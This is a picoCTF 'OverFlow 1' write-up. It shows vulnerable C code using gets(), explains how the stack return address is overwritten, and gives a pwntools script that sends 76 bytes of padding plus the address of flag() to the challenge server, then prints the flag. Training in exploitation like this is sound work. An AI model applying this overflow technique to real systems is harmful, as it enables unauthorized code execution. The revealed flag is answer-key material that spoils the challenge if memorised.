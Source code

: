 # OverFlow 1 - Points: 150

## Description

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](./vuln)? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. [Source](./vuln.c).

## Solution

We can see that the ```vuln()``` function takes user input and stores it in a char array with a buffer size of 64.
There's also a flag() function that will print the flag if we can call it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

To call the flag function, we can overwrite the return address of the vulnerable function.
Consider the structure of the call stack:

```
Local variables
EBP
Return Address
Arguments
```

Because the stack grows downwards, anything we write thats longer than the space allocated for local variables will overwrite EBP then, arguments, then the return address.

We can see that the buffer size of the char array in ```vuln()``` is 64.
Some more space is reserved for other local variables, but we can start inputting 64 bytes, followed by some recognisable pattern, such as AAAABBBBCCCCDDDD...

Given this input, the program prints 0x44444444 as the return address.
We can also check the value of EBP using GDB and see that it is 0x43434343, from here we could infer that, because there were no arguments pushed to this stack, the next characters would be the return address.

A total of 80 bytes were required to completely overwrite the return address, including 76 bytes of padding, and a new 32-bit address.
By replacing the value 0x44444444 that's currently present in our input with the address of ```flag()```, we can redirect the program to the desired function.

We can use a tool like GDB or Radare2 to print a list of functions and find the address of the flag function.
In this case, it is 0x080485e6.

## Exploit script

Using what we had discovered in the steps prior, we know that we need to send the program 76 bytes, followed by the address.
I'm using pwntools as usual to connect to the process, and I'm printing the address using the ```p32()``` function, which will automatically format it in little endian.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 76).encode() + p32(0x080485e6))
vuln.recvline()

print("done")
vuln.interactive()
```

## Flag

```picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}```

